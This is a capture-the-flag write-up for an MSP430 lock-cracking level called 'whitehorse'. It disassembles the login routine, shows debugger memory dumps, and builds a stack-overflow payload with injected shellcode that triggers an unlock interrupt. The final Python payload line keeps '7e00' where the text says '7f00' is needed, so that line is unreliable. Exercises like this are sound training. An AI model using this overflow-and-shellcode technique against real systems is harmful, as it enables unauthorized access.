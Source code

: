 # whitehorse writeup

let's have a look at the different functions first:

**`<main>**:`

Lets look at the **`<main>`** function first, for this level it simply calls another function **`<login>`**

```asm
4438 <main>
4438:  b012 f444      call  #0x44f4 <login>
```

**`<login>**:`

this function doesn't look that interesting, but it calls another function: **<conditional_unlock_door>**

it prints ***“Access granted."*** or ***“That password is not correct."***

**!: Remember: passwords are between 8 and 16 characters.**

```asm
44f4 <login>
44f4: 3150 f0ff add #0xfff0, sp
44f8: 3f40 7044 mov #0x4470 "Enter the password to continue.", r15
44fc: b012 9645 call #0x4596 <puts>
4500: 3f40 9044 mov #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504: b012 9645 call #0x4596 <puts>
4508: 3e40 3000 mov #0x30, r14
450c: 0f41 mov sp, r15
450e: b012 8645 call #0x4586 <getsn>
4512: 0f41 mov sp, r15
4514: b012 4644 call #0x4446 <conditional_unlock_door
4518: 0f93 tst r15
451a: 0324 jz #0x4522 <login+0x2e>
451c: 3f40 c544 mov #0x44c5 "Access granted.", r15
4520: 023c jmp #0x4526 <login+0x32>
4522: 3f40 d544 mov #0x44d5 "That password is not correct.", r15
4526: b012 9645 call #0x4596 <puts>
452a: 3150 1000 add #0x10, sp
452e: 3041 ret
```

**`<conditional_unlock_door>:`**

```asm
4446 <conditional_unlock_door>
4446:  0412           push  r4
4448:  0441           mov   sp, r4
444a:  2453           incd  r4
444c:  2183           decd  sp
444e:  c443 fcff      mov.b #0x0, -0x4(r4)
4452:  3e40 fcff      mov   #0xfffc, r14
4456:  0e54           add   r4, r14
4458:  0e12           push  r14
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e ; lets have a look at the manual!
4460:  b012 3245      call  #0x4532 <INT>
4464:  5f44 fcff      mov.b -0x4(r4), r15
4468:  8f11           sxt   r15
446a:  3152           add   #0x8, sp
446c:  3441           pop   r4
446e:  3041           ret
```

***INT 0x7E:***

***Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.***

***Takes one argument: the password to test.***

but after reading it for a while I noticed that I have to change it to this:

***INT 0x7F***

***``Interface with deadbolt to trigger an unlock if the password is correct.
Takes no arguments.``***

let's start debugging and enter a password:

I quickly realized that I can control the stack and after asking someone if I can call my own interrupt I simply did that.

let's have a look at this two instructions:

```asm
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

I just took `3012 7e00 b012 3245` for my own input to call 0x7e

I first asked myself what my payload should look like so I looked at the password buffer:

after playing around with the debugger I noticed that my password buffer starts at `3c72`

> read sp
 
`3c6a:   0200 723c 3000 1245  ..r<0..E`

`3c72:   4242 4242 4242 4242  BBBBBBBB`

`3c7a:   4242 4242 4242 4242  BBBBBBBB`

`3c82:   4242 4242 0000 0000  BBBB....`

( I entered 20 B's )

> read sp

`3c82:   4242 4242 0000 0000  BBBB....`

`3c8a:   0000 0000 0000 0000  ........`

`3c92:   0000 0000 0000 0000  ........`

`3c9a:   0000 0000 0000 0000  ........`

now the `stack pointer` is here

so the `ret` will jump to the address at the 17-18th position of the password buffer 

Payload (hex encoded):

the first 8 bytes will be `3012 7f00 b012 3245` for my changed interrupt

`7e00` (I had to change that to `7f00` to trigger **INT 0x7f**)

the next 8 bytes are `4242424242424242` (you obviously can also enter other for example `41` 8 times )

the last 2 bytes are `3c72`

as you already know MSP 430 is `little endian` so it's `723c`

i did it with a python shell:

```python
>>> print('30127e00b0123245'+'41'*8+'723c')
```

this level was pretty tricky!

solved: 14.3.20
